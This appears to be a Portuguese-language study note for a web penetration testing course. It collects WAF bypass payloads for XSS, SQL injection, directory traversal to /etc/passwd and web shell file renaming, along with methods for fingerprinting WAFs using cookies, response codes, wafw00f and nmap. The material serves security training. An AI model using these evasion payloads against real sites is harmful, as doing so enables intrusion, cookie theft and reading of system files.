 #INE #WebHacking #eWPTX
## Regras simples para Bypass em WAF
### Cross-site Scripting

| Usado normalmente | Melhor Opção |
| --- | --- |
| alert('xss') | prompt('xss') |
| alert(1) | prompt(8) |
|  | confirm('xss') |
|  | confirm(8) |
|  | alert(/xss/.source) |
|  | window\[/alert/.source](8) |

| Usado normalmente | Melhor Opção |
| --- | --- |
| alert(document.cookie) | with(document)alert(cookie) |
|  | alert(document\['cookie']) |
|  | alert(document\[/cookie/.source]) |
|  | alert(document\[/coo/.source+/kie/.source]) |

| Usado normalmente | Melhor Opção |
| --- | --- |
| \<img src=x onerror=alert(1);> | \<svg/onload=alert(1)> |
|  | \<video src=x onerror=alert(1);> |
|  | \<audio src=x onerror=alert(1);> |

| Usado normalmente | Melhor Opção |
| --- | --- |
| javascript:alert(document.cookie) | data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4= |
### Blind SQL Injection

| Usado normalmente | Melhor Opção |
| --- | --- |
| 'or 1=1 | 'or 6=6 |
|  | 'or 0x47=0x47 |
|  | or char(32)='' |
|  | or 6 is not null |
### SQL Injection

| Usado normalmente | Melhor Opção |
| --- | --- |
| UNION SELECT | UNION ALL SELECT |
### Directory Traversal

| Usado normalmente | Melhor Opção |
| --- | --- |
| /etc/passwd | /too/../etc/far/../passwd |
|  | /etc//passwd |
|  | /etc/ignore/../passwd |
|  | /etc/passwd............. |
### Web Shell

| Usado normalmente | Melhor Opção |
| --- | --- |
| c99.php | augh.php |
| r57.php |  |
| shell.aspx |  |
| cmd.jsp |  |
| CmdAsp.asp |  |
## WAF Detection and Fingerprinting
### Valor de Cookie

**Citrix Netscaler** -> Usa alguns cookies diferentes como ```ns_af``` ou ```citrix_ns_id``` ou ```NSC_```

**F5 BIG-IP ASM** -> Usa cookies começando com "TS" e continua com uma string que segue o seguinte regex:
	```
	^TS\[a-zA-Z0-9]{3,6}```

**Barracuda** -> Usa 2 cookies: ```barra_counter_session``` e ```BNI__BARRACUDA_LB_COOKIE```
### Header Rewrite

Alguns WAFs reescrevem os HTTP headers modificando o "Server" ou removendo dependendo da requisição
### HTTP Response Code

Alguns WAFs modificam o HTTP response code se a requisição for hostil

**mod_security** -> ```406 Not Acceptable```
**AQTRONIX WebKnight** -> ```999 No Hacking```
### HTTP Response Body

É possível detectar a presença de um WAF no response body
#### mod_security

![[Pasted image 20231219195354.png]]
#### AQTRONIX WebKnight

![[Pasted image 20231219195403.png]]
#### dotDefender

![[Pasted image 20231219195413.png]]
### Close Connection

Uma função interessante presente em alguns WAFs é a ```close connection```, que serve para dropar conexões em caso de requisições maliciosas
## Tools
### wafw00f

É uma tool escrita em python e que pode detectar 20 tipos diferentes de WAF

https://github.com/EnableSecurity/wafw00f

A ferramenta utiliza técnicas similares as abordadas acima:
1. Cookies
2. Server Cloaking
3. Response Codes
4. Drop Action
5. Pre-Built-In Rules

**Uso:**
```shell
wafw00f <site>
```
### nmap

O nmap possuí um script para detecção de WAFs o ```http-waf-fingerprint```

**Uso:**
```shell
nmap --script=http-waf-fingerprint <site> -p 80
```

